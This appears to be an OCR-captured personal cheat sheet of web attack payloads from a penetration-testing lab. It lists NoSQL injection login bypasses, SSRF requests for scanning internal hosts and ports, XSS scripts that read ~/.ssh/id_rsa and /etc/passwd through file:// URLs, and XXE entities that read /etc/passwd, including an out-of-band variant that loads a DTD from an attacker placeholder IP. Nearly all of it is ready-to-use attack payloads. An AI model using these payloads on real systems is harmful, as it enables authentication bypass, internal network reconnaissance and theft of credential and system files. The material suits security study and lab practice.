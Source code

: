 ```bash
#in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt":""}, "password": {"$gt":""}}

## SSRF

web that send request to external IP's, we call 127.0.0.1:8080 / 10.1.10.111 to enum internal network

chat:3000/ssrf?user=&comment=&link=http://127.0.0.1:3000
GET /ssrf?user=&comment=&link=http://127.0.0.1:3000 HTTP/1.1

Also we can enum ports
```

#### XSS

```bash
<script>alert("XSS")</script>
<script>alert(1)</script>

https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html?m=1

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText.fontsize(1)) }; x.open("GET","file:///home/reader/.ssh/id_rsa"); x.send(); </script>

" <script> x=new XMLHttpRequest; x.onload=function(){ document.write(this.responseText) }; x.open("GET","file:///etc/passwd"); x.send(); </script>

# XXE

XML entry that reads server, Doctype, change to entity "System "file:///etc/passwd""

Instead POST:

<?xml version="1.0" ?>
    <!DOCTYPE thp [
        <!ELEMENT thp ANY>
        <!ENTITY book "Universe">
    ]>
    <thp>Hack The &book;</thp>

Malicious XML:

<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY>
<!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack The
%26book%3B</thp>

XXE OOB

<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```
